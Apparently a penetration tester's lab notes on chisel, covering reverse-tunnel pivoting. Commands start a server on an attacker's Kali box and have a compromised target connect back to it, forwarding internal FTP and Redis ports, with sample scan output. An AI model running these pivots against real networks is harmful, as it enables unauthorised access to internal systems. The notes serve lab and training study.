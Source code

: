 # 💢 chisel
Tags: #💢
Related to:
See also:
Previous: [[Post Exploitation]], [[Tunneling & Exfiltration]]

## Description

A fast TCP/UDP tunnel, transported over HTTP, and secured via SSH.

"If you're familiar with SSH tunnels, chisel is everything reversed. SSH local, if you use chisel, you'll probably do everything reversed. With SSH you're the client, going through the firewall and talking to the SSH server. Use chisel in situations where you can't talk over SSH and you have to say, 'hey client, you have to talk to me and open up the tunnel.' With chisel, we are the server and we're talking to the client and routing through it, so we're doing a reverse pivot first. Reverse means the remote box is listening, and the remote box in this case is our box because we're running the command on their client." -IppSec

Here's a helpful guide: [^1]

## Usage Examples

### Download chisel binary from github repository.

We want to download chisel from the repository so it has a higher chance of running against the GLIBC version on our target.[^2]

 ### Reverse pivot

	chisel server -p 8000 -reverse -v					// 1. Server listens on 8000.	// NOTE THE FINGERPRINT
	./chisel client <kali_box>:8000 ...					// 2. Client connects to server.
	./chisel client <kali_box>:8000 R:8001:<target>:21	// 3. Client: "Hey, I've opened a hole for you (port 8001)"
	./chisel client 10.10.16.12:8000 R:8001:172.19.0.3:21
	
	./chisel client --fingerprint <server_fingerprint> 10.10.16.12:8000 R:127.0.0.1:8001:172.19.0.3:21
	
```
^ this is the secure way to run chisel. Using the server's fingerprint in the client ensures that only you are connecting to the server. Also, specifying 127.0.0.1 limits the tunnel to only people on the local host, not the entire network.
```

On our Kali box:

	ftp localhost 8001	// This accesses 172.19.0.3

```
220 ProFTPD Server (ProFTPD)
Name (localhost:kali):
```

	curl 127.0.0.1:8001

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
		...
```

Restart our chisel client to open port 6379:

	./chisel client --fingerprint sw4f8cHIX6F/7wUx6dJ8V36X4MgxLcl4tOwymk+6NgI= 10.10.16.12:8000 R:127.0.0.1:6379:172.19.0.3:6379

	nmap -sT -sC -sV -p 6379 localhost

```
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9

---
## References

<iframe width="560" height="315" src="https://www.youtube.com/embed/Yp4oxoQIBAM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

[^1]: https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html
[^2]: https://github.com/jpillora/chisel/releases/

